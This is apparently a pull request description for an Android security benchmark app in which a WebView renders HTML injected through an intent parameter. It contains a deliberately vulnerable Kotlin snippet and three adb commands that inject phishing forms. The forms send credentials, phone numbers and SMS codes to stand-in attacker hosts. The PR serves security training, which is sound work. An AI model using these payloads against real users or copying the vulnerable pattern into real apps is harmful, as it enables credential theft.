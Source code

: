 # Add oxo-android-ben45: Form-based Data Exfiltration Through Intent Parameter

## Overview

This PR adds **oxo-android-ben45**, an advanced Android security benchmark that demonstrates **Form-based Data Exfiltration** vulnerabilities in Android WebView components. This benchmark showcases how HTML injection can be used to create malicious forms that collect and exfiltrate sensitive user data.

## Vulnerability Details

**Attack Vector**: Form-based Data Exfiltration with Social Engineering

The benchmark simulates a news reader application (News Reader Pro) where malicious HTML forms are injected through intent parameters. These forms are designed to collect sensitive information such as credentials, personal data, and authentication tokens under the guise of legitimate functionality.

### Key Characteristics
- Injection of HTML forms with external action URLs
- Social engineering to encourage data submission
- Hidden form fields to collect app/device metadata
- Real-time data collection through form events
- Credential harvesting and personal information theft

### Vulnerable Code Pattern
```kotlin
val articleHtml = intent.getStringExtra("content") ?: ""
val fullHtml = """
    <html>
    <body>
        <div class="content">
            $articleHtml  // VULNERABLE - Forms can exfiltrate data!
        </div>
    </body>
    </html>
"""
webView.loadDataWithBaseURL("https://newsreader.app", fullHtml, "text/html", "utf-8", null)
```

## Testing Examples

```bash
# Credential harvesting form
adb shell 'am start -n co.ostorlab.myapplication/.HtmlViewerActivity -e title "Login Required" -e content "<h2>Please Login to Continue</h2><form action=\"http://attacker.com/steal\" method=\"POST\"><input type=\"text\" name=\"username\" placeholder=\"Email/Username\" required><br><br><input type=\"password\" name=\"password\" placeholder=\"Password\" required><br><br><input type=\"submit\" value=\"Login\"></form>"'

# Account verification with phone number collection
adb shell 'am start -n co.ostorlab.myapplication/.HtmlViewerActivity -e title "Account Verification" -e content "<div style=\"background:#ff6b35;color:white;padding:20px;\"><h2>🔒 Account Security Alert</h2><p>Verify your account to prevent suspension:</p><form action=\"http://malicious-server.com/collect\" method=\"POST\"><input type=\"text\" name=\"username\" placeholder=\"Username\" required><input type=\"password\" name=\"password\" placeholder=\"Password\" required><input type=\"text\" name=\"phone\" placeholder=\"Phone Number\" required><button type=\"submit\">VERIFY ACCOUNT</button></form></div>"'

# Security update with hidden data collection
adb shell 'am start -n co.ostorlab.myapplication/.HtmlViewerActivity -e title "Security Update" -e content "<h2>Security Update Required</h2><form action=\"http://evil-server.com/collect\" method=\"POST\"><input type=\"hidden\" name=\"app_package\" value=\"co.ostorlab.myapplication\"><input type=\"hidden\" name=\"device_info\" value=\"android-device\"><label>Phone:</label><input type=\"tel\" name=\"phone\" required><label>SMS Code:</label><input type=\"text\" name=\"sms_code\" required><input type=\"submit\" value=\"Verify & Update\"></form>"'
```

## Advanced Attack Scenarios

### Financial Data Harvesting
- Credit card information collection forms
- Payment processing simulation
- Banking credential theft

### Multi-step Social Engineering
- Progressive information disclosure
- Trust-building through legitimate-looking forms
- Combination with other attack vectors

### Real-time Data Monitoring
- JavaScript form event handlers
- Keystroke logging simulation
- Live data transmission

## Impact Assessment

- **Confidentiality**: Critical - Direct collection of sensitive user data, credentials, PII
- **Integrity**: High - Can manipulate user trust and app functionality
- **Availability**: Medium - Can redirect users away from legitimate services
- **Data Protection**: Critical - GDPR/privacy law violations through unauthorized data collection
- **Financial Impact**: High - Credit card fraud, identity theft potential
- **OWASP Mobile Top 10**: M2 - Insecure Data Storage, M4 - Insecure Authentication, M7 - Client Code Quality
- **CWE**: CWE-79 (Cross-site Scripting), CWE-352 (Cross-Site Request Forgery), CWE-200 (Information Exposure)
- **Difficulty**: Medium-Hard

## Files Added

- `mobile/android/oxo-android-ben45/` - Complete Android project  
- `mobile/android/oxo-android-ben45/README.md` - Detailed vulnerability documentation
- `mobile/android/oxo-android-ben45/apks/oxo-android-ben45.apk` - Pre-built APK for testing

## Security Learning Objectives

This benchmark helps security professionals and developers understand:

1. How HTML injection can facilitate sophisticated data exfiltration attacks
2. The role of social engineering in technical vulnerabilities
3. Form-based attack vectors and data collection techniques
4. The importance of Content Security Policy (CSP) and form action restrictions
5. Real-world scenarios involving credential theft and identity harvesting
6. How to identify and prevent form-based data exfiltration in mobile applications
7. The intersection of technical vulnerabilities and privacy/data protection concerns

This benchmark represents an advanced security challenge that demonstrates how basic HTML injection vulnerabilities can be weaponized for large-scale data collection and demonstrates the critical importance of comprehensive input validation and output encoding in mobile applications.
